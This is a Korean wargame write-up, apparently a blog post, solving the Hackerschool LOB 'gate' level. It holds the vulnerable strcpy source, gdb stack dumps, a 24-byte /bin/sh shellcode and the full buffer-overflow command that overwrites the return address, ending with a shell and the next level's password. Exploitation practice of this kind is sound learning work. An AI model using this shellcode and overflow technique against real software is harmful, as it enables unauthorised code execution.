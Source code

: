 ```yaml
---
layout: post
title: "Hackerschool LOB-gate"
categories: [Hackerschool-LOB]
tags: [pwnable]
redirect_from:
 - /2019/07/24/
---
```

```bash
login: gate
Password:
Last login: Sat Feb 27 11:04:23 on tty1
[gate@localhost gate]$ ls
gremlin  gremlin.c
[gate@localhost gate]$ cat gremlin.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - gremlin
        - simple BOF
*/

int main(int argc, char *argv[])
{
    char buffer[256];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```
gate/gate로 로그인하자.
해킹할 프로그램의 소스 파일을 주었으므로 읽어왔다.
strcpy를 하며 버퍼오버플로우가 일어난다.
LOB에서는 환경변수를 가능하면 사용하지 않겠다.

우선 소스 파일을 복사해 컴파일하자.
```bash
[gate@localhost gate]$ mkdir tmp
[gate@localhost gate]$ cp gremlin.c tmp
[gate@localhost gate]$ cd tmp
[gate@localhost tmp]$ ls
gremlin.c
[gate@localhost tmp]$ gcc -o gremlin gremlin.c
```
LOB는 bash2라는 명령어를 친 후에 풀어야 한다고 한다.
또한 낮은 버전의 gcc 컴파일러를 사용하기 때문에 컴파일을 해도 더미가 생기지 않는다. 그러므로 소스만 보아도 RET까지의 위치를 알 수 있다.
위를 예로 들면 SFT까지는 256+4=260, RET까지는 260+4=264.
정말 계산이 간단해진다.
환경 변수를 사용하면 금방 풀겠지만 아까 말했듯 환경변수는 사용을 자제하겠다.
그러므로 gdb를 통해 풀자.
```bash
[gate@localhost tmp]$ gdb -q gremlin
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
0x8048430 <main>:       push   %ebp
0x8048431 <main+1>:     mov    %ebp,%esp
0x8048433 <main+3>:     sub    %esp,0x100
0x8048439 <main+9>:     cmp    DWORD PTR [%ebp+8],1
0x804843d <main+13>:    jg     0x8048456 <main+38>
0x804843f <main+15>:    push   0x80484e0
0x8048444 <main+20>:    call   0x8048350 <printf>
0x8048449 <main+25>:    add    %esp,4
0x804844c <main+28>:    push   0
0x804844e <main+30>:    call   0x8048360 <exit>
0x8048453 <main+35>:    add    %esp,4
0x8048456 <main+38>:    mov    %eax,DWORD PTR [%ebp+12]
0x8048459 <main+41>:    add    %eax,4
0x804845c <main+44>:    mov    %edx,DWORD PTR [%eax]
0x804845e <main+46>:    push   %edx
0x804845f <main+47>:    lea    %eax,[%ebp-256]
0x8048465 <main+53>:    push   %eax
0x8048466 <main+54>:    call   0x8048370 <strcpy>
0x804846b <main+59>:    add    %esp,8
0x804846e <main+62>:    lea    %eax,[%ebp-256]
0x8048474 <main+68>:    push   %eax
0x8048475 <main+69>:    push   0x80484ec
0x804847a <main+74>:    call   0x8048350 <printf>
0x804847f <main+79>:    add    %esp,8
0x8048482 <main+82>:    leave
0x8048483 <main+83>:    ret
```
strcpy가 main+54에서 일어나므로 그 뒤쪽에 break를 걸자.
```bash
(gdb) b*main+59
Breakpoint 1 at 0x804846b
(gdb) 
(gdb) r $(python -c 'print"A"*260+"BBBB"')
Starting program: /home/gate/tmp/gremlin $(python -c 'print"A"*260+"BBBB"')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

(gdb)Breakpoint 1, 0x804846b in main ()
(gdb) x/500x $esp
0xbffff900:     0xbffff908      0xbffffb64      0x41414141      0x41414141
0xbffff910:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff920:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff930:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff940:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff950:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff960:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff970:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff980:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff990:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff9a0:     0x41414141      0x41414141      0x41414141      0x41414141
......
0xbffffb60:     0x006e696c      0x41414141      0x41414141      0x41414141
0xbffffb70:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffb80:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffb90:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffba0:     0x41414141      0x41414141      0x41414141      0x41414141
```
다른 풀이를 보면 입력을 받아 가장 위에 보이는 입력되는 주소를 RET에 덮어쓴다. 그러나 나는 입력이 저 밑에 하나가 더 생긴다.
그래서 밑에 생긴 입력 주소를 RET로 넘겨야 풀린다.
(삭제-설치 테크도 실패)
왜 입력이 두번 되는건지 알면 hello111353@gmail.com으로 메일 부탁한다ㅠㅠ
(구걸할 정도로 궁금하다)
아무튼, 입력이 시작되는 주소는 bffffb60이므로 그 밑줄의 주소, 즉 bffffb70을 RET로 덮어쓰자.
24byte의 쉘 코드를 사용했다.
```bash
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```
환경변수를 쓰지 않는다고 해도 쉘 코드는 사용한다!
gremlin+SFT=260 (256+4)
이므로 쉘코드와 nop으로 260개를 채워야 한다.
그 뒤에 RET에 덮어쓸 주소를 넣자.
```bash
./gremlin $(python -c 'print"A"*236+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+"\x70\xfb\xff\xbf"')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA1픐h//shh/bin됥PS됣솻
                 ?p??
bash$ my-pass
euid = 501
hello bof world
```
성공했다.
gate's password : hello bof world





